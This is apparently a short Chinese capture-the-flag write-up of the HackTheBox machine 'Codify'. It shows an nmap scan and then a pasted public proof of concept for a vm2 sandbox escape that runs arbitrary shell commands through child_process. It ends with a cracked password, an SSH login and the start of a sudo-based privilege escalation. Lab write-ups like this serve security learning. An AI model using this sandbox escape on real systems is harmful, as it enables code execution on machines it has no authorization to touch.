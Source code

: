 # Codify



![image-20231106154832728](./images/Codify/image-20231106154832728.png)

```
NSOCK INFO [68.8280s] nsock_iod_delete(): nsock_iod_delete (IOD #40)
Nmap scan report for codify.htb (10.10.11.239)
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http
|_http-title: Codify
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 68.83 seconds

```

Express框架



![image-20231106155802395](./images/Codify/image-20231106155802395.png)



看样子就是vm2的那个惊天大洞了



## [Proof of Concept](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244#proof-of-concept)

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```

打一打()



脚本小子开打~~~~~~

![image-20231106201835166](./images/Codify/image-20231106201835166.png)

![image-20231106201826064](./images/Codify/image-20231106201826064.png)

![image-20231106202246187](./images/Codify/image-20231106202246187.png)

spongebob1

ssh 上号



然后提权 ，sudo -l 看到个 mysql-backup脚本
